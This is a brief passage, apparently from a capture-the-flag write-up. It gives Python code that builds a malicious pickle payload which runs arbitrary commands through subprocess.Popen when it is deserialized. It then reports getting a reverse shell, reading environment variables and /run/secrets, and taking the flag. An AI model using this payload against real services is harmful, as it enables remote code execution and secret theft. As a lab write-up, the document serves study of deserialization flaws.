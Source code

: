 > pickle_exploit.py

```python
def exploit(command):
    assert type(command) is list
    payload_prefix = b'''(('''
    payload_suffix = b'''lisubprocess\nPopen\n.'''
    payload_body = bytes()
    for c in command:
        payload_body += b"X" + \
            bytes(struct.pack("<I", len(c))) + bytes(c, encoding="utf-8")
    payload = payload_prefix + payload_body + payload_suffix
    return payload
```

## Result

Reverse shell'd into the server, listed all the environment variables, found `/run/secrets`, got `ctn-fl4g`, sent the link over, captured the Nitro!
